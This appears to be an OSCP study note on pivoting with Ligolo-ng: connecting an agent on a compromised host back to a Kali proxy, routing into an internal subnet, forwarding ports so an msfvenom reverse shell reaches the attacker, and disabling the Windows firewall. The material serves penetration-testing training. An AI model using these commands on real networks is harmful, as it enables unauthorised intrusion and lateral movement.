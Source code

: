 # Ligolo-ng

## When do you use ligolo?

- When you need to access a different subnet from your kali machine; For OSCP this means the AD Set where the DC and the 2nd AD machine will be on a different subnet from your kali

- When you want to access an internal service on a host; usually these are services that are not exposed or services like SQL, MSSQL that only allow logins from localhost

## How does it work?

- This is my layman understanding so happy to be corrected. Ligolo-ng creates a tunnel via the pivot machine (or agent) to allow you to access another subnet. Think of it like a VPN. This is unlike Chisel which uses SOCKS.

- You have a proxy which is your kali and your agent which is the pivot machine

- As such, ligolo-ng is my preference for the OSCP because it is just really good and much faster than something like Chisel where you have to use proxychains and everything slows down to a crawl (esp Nmap scans)

- That said, you should still learn Chisel as an alternative tool

## The Most Common Use Case: For Pivoting into Internal Network

![alt text](/Assets/Basic_ligolo.png)

Now using my piece of art above to explain.

**Scenario**

- You gotten a foothold on MS01. A low level user is sufficient for Ligolo. Now you want to access MS02 from your kali.

- You transfer agent.exe onto MS01 via certutil, or Invoke-WebRequest or mounting a smb share or using evil-winrm upload function.

- On your kali, you set up a listener like this

```bash
sudo ./proxy -selfcert

# create a name for your interface(tunnel)
ifcreate --name ligolo
```
- You notice that the proxy started and is listening on 0.0.0.0:11601. By default, the proxy listens on port 11601 but you can define your own port if you want by:

```bash
sudo ./proxy -selfcert -laddr 0.0.0.0:<port of your choice>
```

- most of the time 11601 is fine but sometimes you may face firewall issues on MS01 which prevents outbound traffic on 11601. You can use something like 53, 80 or 443 which should be exempted from firewall rules.

- okay now your proxy is set up. On MS01, run the following command to connect your agent to the proxy

```cmd

agent.exe -connect 192.168.1.10:11601 -ignore-cert

```

- if all goes smoothly, you should see an agent connected on your proxy. To set up the tunnel, you then run the following commands on your proxy:

```bash

session # choose the session of the agent that connected

route_add --name ligolo --route 10.10.1.0/24  # define the subnet you want to access

start

```

- bingo you can now access the 10.10.1.0/24 subnet!

### What if I want a reverse shell back from MS02 to my kali?

- in some cases, you may want to get a reverse shell back to kali. But you cant just run a msfvenom payload on MS02 with the LHOST being 192.168.1.10 because MS02 has no idea where the 192.68.1.0/24 subnet is and as such your rev shell will fail

- But MS02 knows where MS01 is. So the idea is to have MS01 port fwd incoming connections from MS02 to the kali machine!

- Now assuming you set up the tunnel, what you need to do is to add a listener on the MS01 agent. On your proxy, do the following:

```bash
[Agent : corp.com\peter@MS01] » listener_add --addr 0.0.0.0:443 --to 0.0.0.0:443 --tcp
```

- what the above does is tell the agent MS01 to forward any traffic they receive from port 443 and push it out the other side on port 443. This works bidrectional btw. 

- with this you can get a reverse shell by getting MS02 to connect to MS01 on port 443 who will then forward the traffic to kali on port 443 so:

```bash

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.20 LPORT=443 -f exe > rev.exe

# set up listener on kali

rlwrap nc -lvnp 443

# upload this file to MS02 and execute it. You should get a rev shell!

```

- Again why port 443 is chosen is due to likely firewall rules exempting port 443 from outbound traffic. That said, if you can get Admin on MS01 you can just disable the firewall and use any ports you like for forwarding on MS01. You can do this on MS01 with the following command:

```cmd
netsh advfirewall set allprofiles state off

#powershell equivalent

Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

```

## The Other Scenario: Assessing local services on the host

What if there are services that are either only running on localhost or accept connections from localhost?

You can also use ligolo for this. Set up the proxy and then get the agent connected. The only difference is the route_add

Ligolo reserves the 240.0.0.1 subnet for accessing the agent's localhost. 

**Scenario**

In this case, MS01 has an internal web server on port 8080. You want to access this web server from kali.

```bash
# after selecting the agent session

route_add --name ligolo --route 240.0.0.1/32

start
```

You can now curl or browse to that local webserver via http://240.0.0.1:8080